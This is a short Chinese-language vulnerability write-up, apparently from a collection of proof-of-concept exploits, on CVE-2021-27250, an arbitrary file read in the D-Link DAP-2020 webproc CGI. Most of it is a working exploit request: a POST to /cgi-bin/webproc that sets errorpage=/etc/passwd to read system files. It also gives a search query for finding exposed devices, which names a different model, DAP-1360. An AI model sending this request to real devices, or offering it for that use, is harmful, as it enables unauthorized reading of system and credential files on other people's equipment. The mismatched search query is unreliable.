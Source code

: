 # D-Link DAP-2020 webproc 任意文件读取漏洞 CVE-2021-27250

## 漏洞描述

近日D-Link发布公告[1]称旗下产品DAP-2020存在任意文件读取漏洞，CVE编号为CVE-2021-27250，目前已在硬件版本：A1，固件版本：1.01 上测试了PoC，由于漏洞影响核心组件，因此其他版本也可能受到此漏洞的影响

## 漏洞影响

```
D-LINK DAP-2020
```

## 网络测绘

```
body="DAP-1360" && body="6.05"
```

## 漏洞复现

登录页面

![image-20220715110127290](images/202207151101366.png)

验证POC

```
POST /cgi-bin/webproc

getpage=html%2Findex.html&errorpage=/etc/passwd&var%3Amenu=setup&var%3Apage=wizard&var%3Alogin=true&obj-action=auth&%3Ausername=admin&%3Apassword=123&%3Aaction=login&%3Asessionid=3c1f7123
```

![image-20220715110059377](images/202207151100465.png)
